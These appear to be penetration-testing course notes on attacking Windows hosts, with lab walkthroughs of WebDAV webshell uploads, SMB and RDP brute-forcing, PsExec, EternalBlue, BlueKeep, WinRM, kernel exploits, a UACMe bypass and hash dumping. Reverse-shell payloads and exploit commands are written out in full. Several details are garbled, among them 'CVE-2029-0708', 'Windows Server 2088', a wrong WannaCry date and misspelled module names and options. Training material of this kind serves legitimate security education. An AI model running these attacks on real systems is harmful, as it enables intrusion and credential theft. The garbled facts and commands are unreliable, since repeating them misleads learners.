# System/Host based attacks

import Tabs from '@theme/Tabs'; import TabItem from '@theme/TabItem';

### Course Introduction

**Overview**

* Introduction to system/host based attacks
* Overview of Windows vulnerabilities
* Exploiting Windows vulnerabilities
* Windows privilege escalation
* Windows file system vulnerabilities
* Windows credential dumping
* Windows lateral movement
* Overview of Linux vulnerabilities
* Exploiting Linux vulnerabilities
* Linux privilege escalation
* Linux file system vulnerabilities
* Linux credential dumping

**Learning objectives**

* Students will get an understanding of the various vulnerabilities affecting both Windows and Linux.
* Students will be able to identify exploit vulnerabilities on Windows and Linux systems.
* Students will get an understanding of how to perform privilege escalation on both Windows and Linux systems.
* Students will be able to identify and exploit file system vulnerabilities on both Windows and Linux.
* Students will get an understanding of how credentials are stored on both Windows and Linux systems and how password hashes can be dumped.

### Introduction to System/Host attacks

#### Definitions

* System/host based attacks are attacks that are targeted towards a specific system or host running a specific operating system, for example, Windows or Linux.
* Network services are not the only attack vector that can be targeted during a penetration test.
* System/host based attacks usually come in to play after you have gained access to a target network, whereby, you will be required to exploit servers, workstations or laptops on the internal network.
* System/host based attacks are primarily focused on exploiting inherent vulnerabilities on the target OS.
* Unlike network based attacks, host based attacks are much more specialized and require an understanding of the target operating system and the vulnerabilities that affect said operating systems.
* System/host based attacks involve exploiting misconfigurations and inherent vulnerabilities within the target OS.
* In this course, we will primarily be focusing on Windows and Linux vulnerabilities and how they can be exploited.

### Overview of Windows vulnerabilities

#### History

* Microsoft Windows is the dominant operating system worldwide with a market share >= 70% of 2021.
* The popularity and deployment of Windows by individuals and companies makes it a prime target for attackers given the threat surface.
* Over the last 15 years, Windows has had its fair of severe vulnerabilities, ranging from MS08-067 (Conflicker) to MS17-010 (EternalBlue).
* Given the popularity of Windows, most of these vulnerabilities have publicly accessible exploit code making them relatively straightforward to exploit.

#### Vulnerabilities

* Microsoft Windows has various OS versions and releases which makes the threat surface fragmented in terms of vulnerabilities. For example, vulnerabilities that exist in Windows 7 are not present in Windows 10.
* Regardless of the various versions and releases, all Windows OS's share a likeness given the development model and philosophy :
  * Windows OS's have been developped in the C programming language, making them vulnerable to buffer overflows, arbitrary code execution, etc.
  * By default, Windows is not configured to run securely and require a proactive implementation of security practices in order to configure Windows to run securely.
  * Newly discovered vulnerabilities are not immediatly patched by Microsoft and given the fragmented nature of Windows, many systems are left unpatched.
* The frequent releases of new versions of Windows is also a contributing factor to exploitation, as many companies take a substantial length of time to upgrade their systems to the latest version of Windows and opt to use older versions that may be affected by an increasing number of vulnerabilities.
* In addition to inherent vulnerabilities, Windows is also vulnerable to cross platform vulnerabilities, for example SQL injection attacks.
* System/hosts running Windows are also vulnerable to physical attacks like; theft, malicious peripheral devices etc.

#### Types of vulnerabilities

| Type                    | Description                                                                                                                                                          |
| ----------------------- | -------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| Information disclosure  | Vulnerability that allows an attack to access confidential data.                                                                                                     |
| Buffer overflows        | Caused by a programming error, allows attackers to write data to a buffer and overrun the allocated buffer, consequently writing data to allocated memory addresses. |
| Remote code execution   | Vulnerability that allows an attacker to remotely execute code on the target system.                                                                                 |
| Privilege escalation    | Vulnerability that allows an attacker to elevate their privileges after initial compromise.                                                                          |
| Denial of service (DOS) | Vulnerability that allows an attacker to consume a system/host's ressources (CPU, RAM, Network etc) consequently preventing the system from functioning normally.    |

### Frequently exploited Windows services

* Microsoft Windows has various native services and protocols that can be configured to run on a host.
* These services provide an attacker with an access vector that they can utilize to gain access to a target host.
* Having a good understanding of what these services are, how they work and their potential vulnerabilities is a vitally important skill to have as a prenetration tester.

| Protocol or Service                             | Ports              | Purpose                                                                                                                                                   |
| ----------------------------------------------- | ------------------ | --------------------------------------------------------------------------------------------------------------------------------------------------------- |
| Microsoft IIS (Internet Information Services)   | TCP ports 80/443   | Proprietary web server software developed by Microsoft that runs on Windows.                                                                              |
| WebDAV (Web Distributed Authoring & Versioning) | TCP ports 80/443   | HTTP extension that allows clients to update, delete, move and copy files on a web server. WebDAV is used to enable a web server to act as a file server. |
| SMB/CIFS (Server Message Block Protocol)        | TCP port 445       | Network file sharing protocol that is used to facilitate the sharing of files and peripherals between computers on a local network (LAN).                 |
| RDP (Remote Desktop Protocol)                   | TCP port 3389      | Proprietary GUI remote access protocol developed by Microsoft and is used to remotely authenticate and interact with a Windows system.                    |
| WinRM (Windows Remote Management Protocol)      | TCP ports 5986/443 | Windows remote management protocol that can be used to facilitate remote access with Windows systems.                                                     |

### Exploiting Microsoft IIS WebDAV

#### IIS service

* IIS (Internet Information Services) is a proprietary extensible web server software developed by Microsoft for use with the Windows NT family.
* It can be used to host websites/web apps and provides administrators with a robust GUI for managing websites.
* IIS can be used to host both static and dynamic web pages developed in ASP.NET and PHP.
* Typically configured to run on ports 80/443.
* Supported executable file extensions : `.asp` `.aspx` `.config` `.php`

#### WebDAV service

* WebDAV (Web-based Distributed Authoring and Versioning) is a set of extensions to the HTTP protocol which allow users to collaboratively edit and manage files on remote web servers.
* WebDAV essentially enables a web server to function as a file server for collaborative authoring.
* WebDAV runs on top Microsoft IIS on ports 80/443.
* In order to connect to a WebDAV server, you will need to provide legitimate credentials. This is because WebDAV implements authentication in the form of a username and a password.

#### WebDAV exploitation

1. The first step of the exploitation process will involve identifying whether WebDAV has been configured to run on the IIS web server.
2. We can perform a brute-force attack on the WebDAV server in otder to identify legitimate credentials that we can use for authentication.
3. After obtaining legitimate credentials, we can authenticate with the WebDAV server and upload a malicious `.asp` payload that can be used to execute arbitrary commands or obtain a reverse shell on the target.

#### Tools

Both tools are pre-installed on most offensive penetration testing distributions like Kali and Parrot OS.

| Name    | Description                                                                                                                                                                                                |
| ------- | ---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| davtest | Used to scan, authenticate and exploit a WebDAV server.                                                                                                                                                    |
| cadaver | It supports file upload, download, on-screen display, in-place editing, namespace operations (move/copy), collection creation and deletion, property manipulation, and resource locking on WebDAV servers. |

#### Lab

**Host scan**

```bash
john@attack> nmap 10.3.19.124 -A
john@attack> nmap 10.3.19.124 -p 80 -sV --script http-enum
```

<figure><figcaption></figcaption></figure>

**Brute-force login**

```bash
john@attack> hydra -L /usr/share/wordlists/metasploit/common_users.txt -P /usr/share/wordlists/metasploit/common_passwords.txt 10.3.19.124 http-get /webdav/
```

**WebDAV permissions with davtest**

```bash
john@attack> davtest -auth bob:password_123321 -url http://10.3.19.124/webdav/
```

**File upload with cadaver**

```bash
john@attack> cadaver http://10.3.19.124/webdav/
        dav> put /usr/share/webshells/asp/webshell.asp
```

<figure><figcaption></figcaption></figure>

### Exploiting WebDAV with Metasploit

```
john@attack> nmap 10.3.21.151 --script=http-enum -p 80
```

**First method**

```bash
john@attack> msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.20.2 LPORT=1234 -f asp > shell.asp
john@attack> cadaver http://10.3.21.151/webdav/ # bob:password_123321

dav:/webdav/> put shell.asp
dav:/webdav/> exit

john@attack> msfconsole

msf6> use mutli/handler
msf6> set payload windows/meterpreter/reverse_tcp
msf6> set lhost 10.10.20.2
msf6> set lport 1234
msf6> run

meterpreter> cat c:\\flag.txt
```

**Second method**

```bash
john@attack> msfconsole

msf6> use exploit/windows/iis/iss_webdav_upload_asp
msf6> set httppassword password_123321
msf6> set httpusername bob
msf6> set rhosts 10.3.21.151
msf6> set lhost 10.10.20.2
msf6> set lhost 1234
msf6> set path /webdav/metasploit.asp
msf6> run

meterpreter> cat c:\\flag.txt
```

### Exploiting SMB with PSExec

#### What is SMB ?

* SMB (Server Message Block) is a netwrok file sharing protocol that is used to facilitate the sharing of files and peripherals (printers and serial ports) between computers on a local network (LAN).
* SMB uses port 445 (TCP). However, originally, SMB ran on top of NetBIOS using port 139.
* SAMBA is the open source Linux implementation of SMB, and allows Windows systems to access Linux shares and devices.

#### SMB authentication

The SMB protocol utilizes two levels of authentication

* User authentication : users must provide a username and password in order to authenticate with the SMB server in order to access a share.
* Share authentication : users must provide a password in order to access restricted share.

_Note: both of these authentication levels utilize a challenge response authentication system._

<figure><figcaption></figcaption></figure>

#### What is PSExec ?

* PSExec is a lightweight telnet-replacement developed by Microsoft that allows you execute processes on remote windows systems using any user's credentials.
* PSExec authentication is performed via SMB.
* We can use PSExec utility to authenticate with the target system legitimately and run arbitratry commands or launch a remote command prompt.
* It is very similar to RCP, however, instead of controlling the remote system via GUI, commands are sent via CMD.

#### Exploitation process

* In order to utilize PSExec to gain access to a Windows target, we will need to identify legitimate user accounts and their respective passwords or password hashes.
* This can be done by leveraging various tools and techniques, however, the most common technique will involve performing an SMB login brute-force attack.
* We can narrow down our brute-force attack to only include common Windows user account like `Administrator`.
* After we have obtained a legitimate user account and password, we can use the credentials to authenticate with the target system via PSExec and execute arbitrary system commands or obtain a reverse shell.

#### Lab

```bash
john@attack> nmap 10.3.24.84 -sV -sC
```

**Brute-force credentials**

```bash
john@attack> msfconsole

msf5> use scanner/smb/smb_login
msf5> options
msf5> set rhosts 10.3.24.84
msf5> set user_file /usr/share/metasploit-framework/data/wordlists/common_users.txt
msf5> set pass_file /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt
msf5> set verbose false
msf5> run
```

Credentials : `sysadmin:samantha` `demo:victoria` `auditor:elizabeth` `administrator:qwertyuiop`

**First method (Metasploit)**

```bash
john@attack> msfconsole

msf5> use windows/smb/psexec
msf5> set rhosts 10.3.24.84
msf5> set smbuser administrator
msf5> set smbpass qwertyuiop
msf5> run

meterpreter> cat c:\\flag.txt
```

**Second method (PSExec)**

```bash
john@attack> psexec.py administrator:qwertyuiop@10.3.24.84 cmd.exe

C:\Windows\system32> more c:\\flag.txt
```

### MS17-010 (EternalBlue)

#### Description

* EternalBlue (MS17-010/CVE-2017-0144) is the name given to a collection of Windows vulnerabilities and exploits that allow attackers to remotely execute arbitrary code and gain access to a Windows system and consequently the network that the target system is a part of.
* The EternalBlue exploit was developed by the NSA (National Security Agency) to take advantage of the MS17-010 vulnerability and was leaked to the public by a hacker group called the Shadow Brokers in 2017.
* The EternalBlue exploit takes advantage of a vulnerability in the Windows SMBv1 protocol that allows attackers to send specially crafted packets that consequently facilitate the exection of arbitrary commands.
* The EternalBlue exploit was used in the WannaCry ransomware attack on June 27, 2017 to exploit other Windows systems across networks with the objective of spreading the ransomware to as many systems as possible.
* This vulnerability affects multiple versions of Windows :
  * Windows Vista
  * Windows 7
  * Windows Server 2008
  * Windows 8.1
  * Windows Server 2012
  * Windows 10
  * Windows Server 2016
* Microsoft released a patch for the vulnerability in March 2017, howerver many users and companies have still not yet patched their systems.
* Then EternalBlue exploit has a MSF auxiliary module that can be used to check if a target system if vulnerable to the exploit and also has an exploit module that can be used to exploit the vulnerability on unpatched systems.
* The EternalBlue exploit module can be used to exploit vulnerable Windows systems and consequently provide us with a privileged meterpreter session on the target system.
* In addition to MSF modules, we can also manually exploit the vulnerability by utilizing publicly available exploit code.

#### Lab

**First method (AutoBlue)**

The tools is **AutoBlue-MS17-010** from https://github.com/3ndG4me/AutoBlue-MS17-010.

```bash
john@attack> nmap -sV -p 445 --script=smb-vuln-ms17-010 10.10.10.12
```

<figure><figcaption></figcaption></figure>

```bash
john@attack> git clone https://github.com/3ndG4me/AutoBlue-MS17-010
john@attack> cd AutoBlue-MS17-010
john@attack> pip install -r requirements.txt
john@attack> cd shellcode
john@attack> chmod +x shell.prep.sh
john@attack> ./shell_prep.sh

# auto generate a reverse shell with msfvenom : y
# LHOST for reverse connection                : 10.10.10.10
# LPORT you want x64 to listen on             : 1234
# LPORT you want x86 to listen on             : 1234
# generate a meterpreter/regular shell        : 1
# generate a staged/stageless payload         : 1
```

Shellcodes generated : `sc_x64.bin` `sc_x86.bin`

```bash
# TAB 0
john@attack> nc -lnvp 1234
```

```bash
# TAB 1
john@attack> chmod +x eternalblue_exploit7.py
john@attack> python eternalblue_exploit7.py 10.10.10.12 shellchode/sc_x64.bin
```

```bash
# TAB 0
C:\Windows\system32> whoami
```

**Second method (MSF)**

```bash
john@attack> msfconsole

msf6> use exploit/windows/smb/ms17-010-eternalblue
msf6> set rhosts 10.10.10.12
msf6> run

meterpreter> getuid
```

### Exploiting RDP

#### Description

* The Remote Desktop Protocol (RDP) is a proprietary GUI remote access protocol developed by Microsoft and is used to remotely connect and interact with a Windows system.
* RDP uses TCP port 3389 by default, and can also be configured to run on any other TCP port.
* RDP authentication requires a legitimate user account on the target system as well as the user's password in clear-text.
* We can perform an RDP brute-force attack to identify legitimate user credentials that we can use to gain remote access to the target system.

#### Lab

```bash
john@attack> nmap 10.3.18.102 -sV
```

**Vulnerability check**

```bash
john@attack> msfconsole

msf5> use scanner/rdp/rdp_scanner
msf5> set rhosts 10.3.18.102
msf5> set rport 3333
msf5> run
```

**Brute-force (Hydra)**

```bash
john@attack> hydra -L /usr/share/metasploit-framework/data/wordlists/common_users.txt -P /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt rdp://10.3.18.102 -s 3333
```

Credentials : `sysadmin:samantha` `demo:victoria` `auditor:elizabeth` `administrator:qwertyuiop`

**Connection (xfreerdp)**

```bash
john@attack> xfreerdp /v:10.3.18.102:3333 /u:administrator /p:qwertyuiop

PS C:\Users\Administrator> more c:\flag.txt
```

### CVE-2029-0708 (BlueKeep)

#### Description

* BlueKeep (CVE-2019-0707) is the name given to an RDP vulnerability in Windows that could potentially allow attackers to remotely execute arbitrary code and gain access to a Windows system and consequently the network that the target system is a part of.
* The BlueKeep vulnerability was made public by Microsoft in May 2019.
* The BlueKeep exploit takes advantage of a vulnerability in the Windows RCP protocol that allows attackers to gain access to a chunk of kernel memory consequently allowing them to remotely execute arbitrary code at the system level without authentication.
* Microsoft released a patch for this vulnerability on Math 14th, 2019 and has urged companies to patch this vulnerability as soon as possible.
* At the time of discovery, about 1 million systems worldwide were found to be vulnerable.
* The BlueKeep vulnerability affects multiple versions of Windows :
  * XP
  * Vista
  * Windows 7
  * Windows Server 2088 & R2

#### Exploit

* The BlueKeep vulnerability has various illegitimate PoC's and exploit code that could be malicious in nature. It is therefore recommended to only utilize verified exploit code and modules for exploitation.
* The BlueKeep exploit has an MSF auxiliary module that can be used to check if a target system is vulnerable to the exploit and also has an exploit module that can be used to exploit the vulnerability on unpatched systems.
* The BlueKeep exploit module can be used to exploit vulnerable Windows systems and consequently provide us with a privileged meterpreter session on the target system.

_Note: targeting kernel space memory and application can cause system crashes._

```bash
john@attack> sudo nmap -p 3389 10.10.10.7
john@attack> msfconsole

msf6> search BlueKeep
msf6> use auxiliary/scanner/rdp/cve_2019_0708_bluekeep
msf6> set rhosts 10.10.10.7
msf6> exploit
```

<figure><figcaption></figcaption></figure>

```bash
msf6> use scanner/rdp/cve_2019_0708_bluekeep_rce
msf6> set rhosts 10.10.10.7
msf6> set target 2
msf6> exploit

meterpreter> getuid
```

### Exploit WinRM

#### Description

* Windows Remote Management (WinRM) is a Windows remote amangement protocol that can be used to facilitate remote access with Windows systems over HTTP(S).
* Microsoft implemented WinRM in to Windows in order to make life easier for system administrators.
* WinRM is typically used in the following ways :
  * Remotely access and interact with Windows hosts on a local network.
  * Remotely access and execute commands on Windows systems.
  * Manage and configure Windows systems remotely.
* WinRM typically uses TCP port 5985 and 5986 (HTTPS).
* WinRM implements access control and security for communication between systems through various forms of authentication.
* We can utilize a utility called `crackmapexec` to perform a brute-force on WinRM in order to identify users and their passwords as well as execute commands on the target system.
* We can also utilize a ruby script call `evil-winrm` to obtain a command shell session on the target system.

#### Lab

```bash
john@attack> nmap 10.3.19.37 -p 5985
john@attack> crackmapexec winrm 10.3.19.37 -u administrator -p /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt
john@attack> evil-winrm.rb -i 10.3.19.37 -u administrator -p tinkerbell

*Evil-WinRM* PS> more C:/flag.txt
```

```bash
john@attack> msfconsole

msf5> use exploit/windows/winrm/winrm_script_exec
msf5> set payload windows/meterpreter/reverse_tcp
msf5> set rhosts 10.3.19.37
msf5> set lhost 10.10.9.3
msf5> set force_vbs true
msf5> set username administrator
msf5> set password tinkerbell
msf5> exploit

meterpreter> getuid
meterpreter> cat c:\\flag.txt
```

### Windows Kernel Exploits

#### Introduction

* Privilege escalation is the process of exploiting vulnerabilities or misconfigurations in systems to elevate privileges from one user to another, typically to a user with administrative or root access on a system.
* Privilege escalation is a vital element of the attack life cycle and is a major determinant in the overall sucess of a penetration test.
* After gaining an initial foothold on a target system you will be required to elevate your privileges in order to perform tasks and functionality that require administrative privileges.
* The importance of privilege escalation in the penetration testing process cannot be overstated or overlooked. Developing your privilege escalation skills will mark you out at a good penetration tester.

#### The kernel

* A kernel is a computer program that is the core of an operating system and has complete control over every resource and hardware on a system. It acts as a translation layer between hardware and software and facilitates the communication between these two layers.
* Windows NT is the kernel that comes pre-packaged with all version of Microsoft Windows and operates as a traditional kernel with a few exceptions based on user design philosophy. It consts of two main modes of operation that determine access to system resources and hardware :
  * User mode : programs and services running in user mode have limited access to system resources and functionality.
  * Kernel mode : kernel mode has unrestricted access to system resources and functionality with the added functionality of managing devices and system memory.

#### Exploitation

* Kernel exploits on Windows will typically target vulnerabilities in the Windows kernel to execute arbitrary code in order to run privileged system commands or to obtain a system shell.
* This process will differ based on the version of Windows being targeted and the kernel exploit being used.
* Privilege escalation on Windows systems will typically follow the following methodology :
  * Identifying kernel vulnerabilities
  * Downloading, compiling and transferring kernel exploits onto the target system.

#### Tools & environment

* **Windows-Exploit-Suggester** : this tool compares a targets patch levels against the Microsoft vulnerability database in order to detect potential missing patches on the target. It alse notifies the user if there are public exploit and Metasploit modules available for the missing bulletings
* **Windows-Kernel-Exploits** : collection of Windows Kernel exploit sorted by CVE.

_Note : the techniques demonstrated in this video are performed on a Windows 7 SP1 VM._

#### Demonstration

```
msf6> sessions
```

<figure><figcaption></figcaption></figure>

```
msf6> getuid
msf6> getprivs
msf6> getsystem

msf6> search suggester
msf6> use post/multi/recon/local_exploit_suggester
msf6> set session 3
msf6> run
```

<figure><figcaption></figcaption></figure>

```
msf6> use exploit/windows/local/ms16_014_wmi_recv_notif
msf6> set session 3
msf6> set lport 4422
msf6> exploit
```

<figure><figcaption></figcaption></figure>

Execute the `systeminfo` command and copy-paste in the file `win7.txt`. Clone the git repository Windows-Exploit-Suggester.

```bash
john@attacker> cd Windows-Enum/Windows-Exploit-Suggester
john@attacker> ./windows-exploit-suggester.py --update
john@attacker> ./windows-exploit-suggester.py --database 2021-12-26-mssb.xls --systeminfo ~/Desktop/win7.txt
```

There is a good repository to find kernel exploit : https://github.com/SecWiki/windows-kernel-exploits/blob/master/.

```bash
john@attacker> wget -O 41015.exe https://github.com/SecWiki/windows-kernel-exploits/blob/master/MS16-135/41015.exe

meterpreter> cd C:\Temp
meterpreter> upload ~/Downloads/41015.exe
meterpreter> shell

C:\Temp> .\41015.exe
C:\Temp> .\41015.exe 7

C:\Temp> whoami  # nt authority\system
```

### Bypassing UAC with UACMe

#### UAC

* User Account Control (UAC) is a Windows security feature introduced in Windows Vita that is used to prevent unauthorized changes from being made to the operating system.
* UAC is used to ensure that changes to the operating system require approval from the administrator or a user account that is part of the local administrators group.
* A non-privileged user attempting to execute a program with elevated privileges well be prompted with the UAC **credential prompt**, whedreas a privileged user will be prompted with a **consent prompt**.
* Attacks can bypass UAC in order to execute malicious executables with elevated privileges.

#### How to bypass

* In order to successfully bypass UAC, we will need to have access to a user account that is a part of the local administrators group on the Windows target system.
* UAC allows a program to be executed with administrative privileges, consequently prompting the user for confirmation.
* UAC has various intergrity levels ranging from low to high, if the UAC protection level is set below high, Windows programs can be executed with elevated privileges without prompting the user for confirmation.
* There are multiple tools and techniques that can be used to bypass UAC, however, the tool and techniquer used will depend on the version of Windows running on the target system.

The tool UACMe

* It is an open source, robust privilege escalation tool develop by @hfire0x. It can be used to bypass Windows UAC by leveraging various techniques. (https://github.com/hfiref0x/UACME)
* The UACMe GitHub repository contains a very well documented list of methods that can be used to bypass UAC on multiple versions of Windows ranging from Windows 7 to Windows 10.
* It allows attackers to execute malicious payloads on a Windows target with administrative/elevated privileges by abusing the inbuilt Windows AuteElevate tool.
* The UACMe GitHub repository has more than 60 exploits that can be used to bypass UAC depending on the version of Windows running on the target.

#### Lab

```bash
john@attack> nmap 10.2.22.220
john@attack> msfconsole

msf6> setg RHOSTS 10.2.22.220
msf6> use exploit/windows/http/rejetto_hfs_exec
msf6> exploit

meterpreter> sysinfo
```

<figure><figcaption></figcaption></figure>

```bash
meterpreter> pgrep explorer  # 2448
meterpreter> migrate 2448
meterpreter> getuid          # VICTIM\admin
meterpreter> sysinfo
```

<figure><figcaption></figcaption></figure>

```
meterpreter> getprivs
```

<figure><figcaption></figcaption></figure>

```bash
# create the listener
john@attack> msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.5.2 LPORT=1234 -f exe > backdoor.exe
john@attack> msfconsole

msf6> use multi/handler
msf6> set payload windows/meterpreter/reverse_tcp
msf6> set lhost 10.10.5.2
msf6> set lport 1234
msf6> run
```

```bash
# go back to meterpreter
meterpreter> cd C:\\
meterpreter> mkdir Temp
meterpreter> cd Temp
meterpreter> upload /root/backdoor.txt
meterpreter> upload /root/Desktop/tool/UACME/Akagi64.exe
meterpreter> shell

C:\Temp> .\Akagi64.exe 23 C:\Temp\backdoor.exe
```

```bash
# look at the listener, it has a new session
meterpreter> sysinfo
meterpreter> getprivs
```

<figure><figcaption></figcaption></figure>

```bash
meterpreter> ps
```

<figure><figcaption></figcaption></figure>

```bash
meterpreter> migrate 688
meterpreter> getuid
meterpreter> run post/windows/gather/smart_hashdump  # NTLM hash here
```

### Access token impersonation

#### Windows access token

* Windows access tokens are a core element of the authentication process on Windows and are created and managed by the Local Security Authority Subsystem Service (LSASS).
* A Windows access token is responsible for identifying and describing the security context of a process or thread running on a system. Simply put, an access token can be thought of as a temporary key akin to a web cookie that provides users with access to a system or network resource without having to provide credentials each time a process is started or a system resource is accessed.
